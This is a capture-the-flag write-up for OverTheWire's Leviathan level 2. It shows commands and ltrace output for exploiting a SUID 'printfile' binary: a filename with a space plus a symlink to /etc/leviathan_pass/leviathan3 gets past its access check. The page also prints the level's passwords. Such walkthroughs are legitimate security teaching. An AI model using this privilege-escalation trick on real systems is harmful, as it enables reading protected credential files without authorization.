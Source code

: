 ## Login

SSH: `ssh leviathan2@leviathan.labs.overthewire.org -p 2223`

Password: `NsN1HwFoyN`

## A little bit of Theory

In this level, we will see how we can use some uncommon inputs and differences in function inputs can be used to do privilege escalation. Specifically, we look at how white spaces in inputs can sometimes be split.

A **Link** is a symbolic pointer to a file to allow access to the file from other folders. Instead of creating a copy that, when edited, will be different to the original, a link points to the original.

## Solution

I again start by looking at the home folder content and finding a SUID binary called ‘printfile’ owned by the ’leviathan3’ user. So I again test what it does:

```bash
leviathan2@leviathan:~$ ls -la
total 28
drwxr-xr-x  2 root       root       4096 Aug 26  2019 .
drwxr-xr-x 10 root       root       4096 Aug 26  2019 ..
-rw-r--r--  1 root       root        220 May 15  2017 .bash_logout
-rw-r--r--  1 root       root       3526 May 15  2017 .bashrc
-r-sr-x---  1 leviathan3 leviathan2 7436 Aug 26  2019 printfile
-rw-r--r--  1 root       root        675 May 15  2017 .profile
leviathan2@leviathan:~$ ./printfile 
*** File Printer ***
Usage: ./printfile filename
```

It seems like we can use the binary with a file and based on the name, it will print the content of the file. So let’s try printing the password file for the ’leviathan3’ user.

```bash
leviathan2@leviathan:~$ ./printfile /etc/leviathan_pass/leviathan3
You cant have that file...
```

This does not seem to be quite as easy. It seems like we can only read a file that we have permission for. To check, I test it on a file in the home folder. We can see that it works as expected:

```bash
leviathan2@leviathan:~$ ./printfile .bash_logout 
# ~/.bash_logout: executed by bash(1) when login shell exits.

# when leaving the console clear the screen to increase privacy

if [ "$SHLVL" = 1 ]; then
    [ -x /usr/bin/clear_console ] && /usr/bin/clear_console -q
fi
```

Now, the knowledge we have so far is not enough to understand how to get the password for the next level. We need to understand the program even better.

In the previous level, we learned two commands to analyse a program. Let’s see what we can find out with `ltrace`.

```bash
leviathan2@leviathan:~$ ltrace ./printfile .bash_logout
__libc_start_main(0x804852b, 2, 0xffffd774, 0x8048610 <unfinished ...>
access(".bash_logout", 4)                                              = 0
snprintf("/bin/cat .bash_logout", 511, "/bin/cat %s", ".bash_logout")  = 21
geteuid()                                                              = 12002
geteuid()                                                              = 12002
setreuid(12002, 12002)                                                 = 0
system("/bin/cat .bash_logout"# ~/.bash_logout: executed by bash(1) when login shell exits.

# when leaving the console clear the screen to increase privacy

if [ "$SHLVL" = 1 ]; then
    [ -x /usr/bin/clear_console ] && /usr/bin/clear_console -q
fi
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                 = 0
+++ exited (status 0) +++
```

So first, the access function is called, which checks if the user is allowed to access the file (in this case, the user is ’leviathan2’). The change of the user ID is only done later on. We can also see that `/bin/cat` is called to print the file.

Now we can try and see what potential unexpected input can do. Let’s see, what would happen, if we input two files:

```bash
leviathan2@leviathan:~$ mktemp -d
/tmp/tmp.BykcxJXZxD
leviathan2@leviathan:~$ touch /tmp/tmp.BykcxJXZxD/"test file.txt"
leviathan2@leviathan:~$ ls -la /tmp/tmp.BykcxJXZxD
total 228
drwx--S---   2 leviathan2 root   4096 Jul  5 09:03 .
drwxrws-wt 181 root       root 225280 Jul  5 09:02 ..
-rw-r--r--   1 leviathan2 root      0 Jul  5 09:03 test file.txt
leviathan2@leviathan:~$ ltrace ./printfile /tmp/tmp.BykcxJXZxD/"test file.txt"
__libc_start_main(0x804852b, 2, 0xffffd764, 0x8048610 <unfinished ...>
access("/tmp/tmp.BykcxJXZxD/test file.tx"..., 4)                       = 0
snprintf("/bin/cat /tmp/tmp.BykcxJXZxD/tes"..., 511, "/bin/cat %s", "/tmp/tmp.BykcxJXZxD/test file.tx"...) = 42
geteuid()                                                              = 12002
geteuid()                                                              = 12002
setreuid(12002, 12002)                                                 = 0
system("/bin/cat /tmp/tmp.BykcxJXZxD/tes".../bin/cat: /tmp/tmp.BykcxJXZxD/test: No such file or directory
/bin/cat: file.txt: No such file or directory
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                 = 256
+++ exited (status 0) +++
```

So, the access function looks at the whole file name, therefore allowing us to read the file. However, the ‘/bin/cat’ only gets part of the file name, specifically, everything before the space.

Now, we can create a file called ’test’ that links to the password file and give the ’leviathan3’ user permission to access the directory. This way the binary does call the password file and we evaded the check.

```bash
leviathan2@leviathan:~$ clear
leviathan2@leviathan:~$ ln -s /etc/leviathan_pass/leviathan3 /tmp/tmp.BykcxJXZxD/test
leviathan2@leviathan:~$ ls -la /tmp/tmp.BykcxJXZxD
total 228
drwx--S---   2 leviathan2 root   4096 Jul  5 09:11 .
drwxrws-wt 181 root       root 225280 Jul  5 09:10 ..
lrwxrwxrwx   1 leviathan2 root     30 Jul  5 09:11 test -> /etc/leviathan_pass/leviathan3
-rw-r--r--   1 leviathan2 root      0 Jul  5 09:03 test file.txt
leviathan2@leviathan:~$ chmod 777 /tmp/tmp.BykcxJXZxD
leviathan2@leviathan:~$ ./printfile /tmp/tmp.BykcxJXZxD/"test file.txt"
f0n8h2iWLP
/bin/cat: file.txt: No such file or directory
```

---
### Official Level Link

[Leviathan Level 3](https://overthewire.org/wargames/leviathan/leviathan3.html)